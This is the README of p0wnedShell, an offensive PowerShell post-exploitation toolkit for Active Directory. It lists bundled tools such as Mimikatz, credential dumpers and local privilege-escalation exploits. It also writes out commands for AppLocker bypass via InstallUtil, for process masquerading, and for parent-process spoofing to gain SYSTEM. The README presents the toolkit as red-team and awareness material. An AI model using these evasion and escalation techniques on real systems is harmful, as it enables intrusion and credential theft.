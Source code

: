 # p0wnedShell

PowerShell Runspace Post Exploitation Toolkit 

![Alt text](/p0wnedShell/p0wnedShell.ico?raw=true "p0wnedShell")

### Author: Cn33liz and Skons

Version: 2.5
License: BSD 3-Clause

### What is it:

p0wnedShell is an offensive PowerShell host application written in C# that does not rely on powershell.exe but runs powershell commands and functions within a powershell runspace environment (.NET). It has a lot of offensive PowerShell modules and binaries included to make the process of Post Exploitation easier.
What we tried was to build an “all in one” Post Exploitation tool which we could use to bypass all mitigations solutions (or at least some off), and that has all relevant tooling included. 
You can use it to perform modern attacks within Active Directory environments and create awareness within your Blue team so they can build the right defense strategies.

### How to Compile it:

To compile p0wnedShell you need to open this project within Microsoft Visual Studio and build it for the x64/x86 platform.
You can change the following AutoMasq options before compiling:

public static bool AutoMasq = true;

public static string masqBinary = @"C:\Windows\Notepad.exe";

### How to use it:

With AutoMasq set to false, you just run the executable so it runs normally.
With AutoMasq enabled, you could rename the p0wnedShell executable as the process you're going to masquerade (masqBinary), so it has the appearance of that process (for example notepad.exe).

Using the optional "-parent" commandline argument, you can start p0wnedShell using another Parent Process ID.
When combining the PEB Masq option and different parent process ID (for example svchost), you can give p0wnedShell the appearance of a legitimate service ;) 

Note: Running p0wnedShell using another Parent Process ID doesn't work from a Meterpreter session/shell.... yet!

```
Changing the Parent Process ID can also be used to spawn a p0wnedShell process with system privileges, 
for example using lsass as the the parent process.
For this you need to have UAC elevated administrator permissions.

C:\p0wnedShell>p0wnedShellx64.exe -parent
 
 [+] Please enter a valid Parent Process name.
 [+] For Example: C:\p0wnedShell\p0wnedShellx64.exe -parent svchost
 
C:\p0wnedShell>p0wnedShellx64.exe -parent lsass
```

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedShell\p0wnedShellx64.exe
```

### What's inside the runspace:

#### The following PowerShell tools/functions are included:

* PowerSploit: Invoke-Shellcode
* PowerSploit: Invoke-ReflectivePEInjection
* PowerSploit: Invoke-Mimikatz
* PowerSploit: Invoke-TokenManipulation
* PowerSploit: PowerUp and PowerView
* Rasta Mouse: Sherlock
* HarmJ0y's: Invoke-Psexec and Invoke-Kerberoast
* Rohan Vazarkar's: Invoke-BloodHound (C# Ingestor)
* Chris Campbell's: Get-GPPPassword
* Tim Medin's: GetUserSPNS
* Besimorhino's: PowerCat
* Nishang: Copy-VSS and Invoke-Encode
* Nishang: Invoke-PortScan and Get-PassHashes
* Kevin Robertson: Invoke-Tater, Invoke-SMBExec and Invoke-WMIExec
* Kevin Robertson: Invoke-Inveigh and Invoke-InveighRelay
* FuzzySecurity: Invoke-MS16-032 and Invoke-MS16-135


Powershell functions within the Runspace are loaded in memory from
[Base64 encode and compressed strings](https://github.com/Cn33liz/p0wnedShell/blob/master/Utilities/CompressString.cs).

#### The following Binaries/tools are included:

* Benjamin DELPY's Mimikatz
* Benjamin DELPY's MS14-068 kekeo Exploit
* Didier Stevens modification of ReactOS Command Prompt
* MS14-058 Local SYSTEM Exploit
* hfiref0x MS15-051 Local SYSTEM Exploit

Binaries are loaded in memory using ReflectivePEInjection (Byte arrays are compressed using Gzip and saved within p0wnedShell as [Base64 encoded strings](https://github.com/Cn33liz/p0wnedShell/blob/master/Utilities/CompressString.cs)).

### Shout-outs:

p0wnedshell is heavily based on tools and knowledge from people like harmj0y, the guys from Powersploit, Sean Metcalf, SubTee, Nikhil Mittal, Besimorhino, Benjamin Delpy, Breenmachine, FoxGlove Security, Kevin Robertson, FuzzySecurity, James Forshaw and anyone else i forgot. So shout-outs go to them and of course to our friends in Redmond for giving us access to a very powerfull hacking language.

### Todo:

* Tab completion within the shell using TabExpansion2.
* More attacks (Kerberos Silver Tickets e.g.).
* More usefull powershell modules.
* Fix the console redirection when running p0wnedShell from a Meterpreter shell using a different Parent Process ID.

### Contact:

To report an issue or request a feature, feel free to contact me at:
Cornelis ```at``` dePlaa.com or [@Cn33lis](https://twitter.com/Cneelis)

